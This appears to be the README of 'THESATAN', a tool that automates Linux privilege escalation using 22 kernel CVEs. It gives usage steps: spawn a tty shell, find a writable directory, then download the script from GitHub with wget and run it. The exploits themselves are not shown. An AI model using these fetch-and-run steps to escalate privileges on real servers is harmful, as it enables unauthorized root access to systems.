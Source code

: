 ☣️ THESATAN - Automation Privilage Escalation for Linux.
This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x only.
- Work with python2.7 / python3+ also gcc installed on the machine.

Usage:
- Spawn a tty shell in terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
Note: ❌Don't run THESATAN in public access or you will destroy yourself!

- Python2.7
wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py
python thesatan.py

- Python3+ 
wget https://raw.githubusercontent.com/warmode666/thesatan/main/thesatan.py
python3 thesatan.py

- Wait until THESATAN done.
